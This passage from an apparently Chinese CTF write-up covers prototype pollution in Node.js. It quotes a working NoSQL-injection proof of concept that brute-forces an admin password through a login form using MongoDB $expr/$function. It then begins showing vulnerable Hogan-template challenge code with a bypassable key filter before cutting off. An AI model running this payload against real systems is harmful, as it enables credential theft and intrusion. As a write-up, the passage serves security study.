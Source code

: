
validate 会检查用户和密码是否存在，将密码设置为{}.proto 即可继续注入，最后，虽然设置了过滤$where，但通过搜索可以看到，其实可以使用$expr 的形式 官方 poc 大致如下

```plain
for bf in range(32):
    for i in '0123456789abcdef':
        r = post(f'{URL}/user/login', data={
            'username': 'admin", "__proto__": {"a":"haha',
            'password': 'testpw"}, "$expr": \
                {\
                    "$function":\
                    {\
                        "body": "function(pw) { return pw['+ str(bf) +'] == \''+ i +'\' }",\
                        "args": ["$password"],\
                        "lang": "js"\
                    }\
                }, "username": "admin'.replace(' ', '').replace('returnpw', 'return pw')
        }).json()

        if r['statusCode'] == 403:
            adminPW += i
            print(adminPW)
            break
```

### 污染模版内容 rce

常见的 ejs rce 太多了，大家可以自己搜索

我这里提一个比较有意思的 hogan 模板

```plain
const express = require("express");
const { open } = require("sqlite");
const sqlite = require("sqlite3");
const hogan = require("hogan.js");

const app = express();
app.use((req, res, next) => {
  res.setHeader("connection", "close");
  next();
});
app.use(express.urlencoded({ extended: true }));

const loadDb = () => {
  return open({
    driver: sqlite.Database,
    filename: "./data.sqlite",
  });
};

const defaults = {
  city: "*",
};

const UNSAFE_KEYS = ["__proto__", "constructor", "prototype"];

const merge = (obj1, obj2) => {
  for (let key of Object.keys(obj2)) {
    if (UNSAFE_KEYS.includes(key)) continue;
    const val = obj2[key];
    key = key.trim();
    if (typeof obj1[key] !== "undefined" && typeof val === "object") {
      obj1[key] = merge(obj1[key], val);
    } else {
      obj1[key] = val;
```